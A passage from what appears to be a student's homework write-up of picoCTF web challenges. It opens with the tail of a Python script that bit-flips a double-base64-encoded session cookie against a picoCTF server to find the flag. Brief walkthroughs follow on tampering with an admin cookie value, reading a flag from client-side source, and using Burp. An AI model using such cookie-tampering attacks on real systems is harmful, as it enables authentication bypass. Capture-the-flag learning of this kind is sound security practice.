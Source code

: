             modified_byte = raw_cookie_data[byte_index] ^ 1 << bit_index
            modified_cookie = (raw_cookie_data[:byte_index] +
                               modified_byte.to_bytes(1, byteorder='big') +
                               raw_cookie_data[byte_index + 1:])

            # Encode the modified cookie twice as per the server's requirement
            modified_encoded = base64.b64encode(base64.b64encode(modified_cookie)).decode('utf-8')

            # Send the modified cookie to the server
            modified_response = requests.get("http://mercury.picoctf.net:10868/", cookies={'auth_name': modified_encoded})

            # Check the server's response for the flag pattern
            if "picoCTF{" in modified_response.text:
                print(modified_response.text)

# Run the exploit function
find_flag()


This code is based on: https://www.google.com/search?client=safari&rls=en&q=more+cookies+picoctf&ie=UTF-8&oe=UTF-8#fpstate=ive&vld=cid:40870205,vid:Fs3EbH-Wdhc,st:0

The code deploys a page where we can find the flag

<img width="956" alt="Captura de pantalla 2024-04-18 a la(s) 00 10 17" src="https://github.com/emiliasaenz/HW2/assets/143628612/893981b9-b23b-4817-b55d-604e1b6144da">

Ex 7: Logon

We can login as Joe and a random password but it doesnt show the flag
We enter in inspect and go to the application tab and there we can see all the users and their passwords, including the administrator, where we can see that the value is in false

<img width="1348" alt="Captura de pantalla 2024-04-18 a la(s) 00 16 36" src="https://github.com/emiliasaenz/HW2/assets/143628612/672040e0-836c-46c7-a712-bf80e8c4dd31">

We change the false value with true and it shows the flag, because we have control of our cookies

<img width="783" alt="Captura de pantalla 2024-04-18 a la(s) 00 21 14" src="https://github.com/emiliasaenz/HW2/assets/143628612/6925bb11-bd1c-426e-84f7-9b00176f35fc">

Ex 8: Dont use client side

We go to the new page and click on inspect. On the tab of Sources we can see a file where the flag is in parts, so we just have to put them together in order to obtain the flag

<img width="599" alt="Captura de pantalla 2024-04-18 a la(s) 00 29 08" src="https://github.com/emiliasaenz/HW2/assets/143628612/80159da0-f3f4-41cf-a794-fb3785f8d4de">

Ex 9: Who are you?

For this I used Burp to intercept the requests. 
<img width="532" alt="Captura de pantalla 2024-04-18 a la(s) 01 23 43" src="https://github.com/emiliasaenz/HW2/assets/143628612/b4258eae-b122-4380-a58d-9c0bb41399bb">
